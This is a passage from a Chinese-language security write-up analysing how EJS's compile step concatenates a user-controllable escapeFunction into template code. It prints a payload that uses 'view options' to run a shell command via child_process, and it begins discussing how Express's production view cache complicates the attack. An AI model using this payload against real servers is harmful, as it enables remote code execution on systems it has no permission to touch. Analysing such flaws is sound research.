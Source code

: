 如果 `options.cache` 有設置，那就直接用 cache 裡已經 compile 過的東西，否則就重新 compile 一次。

而最後重點中的重點就是 [compile](https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L571)，裡面有一段如下：

``` js
if (opts.client) {
  src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
  if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
  }
}
```

會拿 `escapeFn` 去拼接程式碼。

於是我們只要傳入：

``` js
const payload = {
  settings: {
    'view options': {
      client: true,
      escapeFunction: '(() => {});return process.mainModule.require("child_process").execSync("id").toString()'
    }
  }
}
```

就可以執行任意程式碼，達成 RCE。

## Cache 的問題

雖然前面講的很順，但是有一個 cache 的問題。

在 production 模式底下 view cache 會[自動啟用](https://github.com/expressjs/express/blob/4.18.2/lib/application.js#L126)：

``` js
if (env === 'production') {
  this.enable('view cache');
}
```

而這個參數在 render 的時候會自動被帶到 options 裡面：

``` js
// set .cache unless explicitly provided
if (renderOptions.cache == null) {
  renderOptions.cache = this.enabled('view cache');
}
```

雖然說我們可以透過 view options 覆蓋原本的 options，但如果原本 options 內就有傳入 cache 的話，又會被覆蓋回去：

``` js
utils.shallowCopyFromList(opts, data, _OPTS_PASSABLE_WITH_DATA_EXPRESS);
```
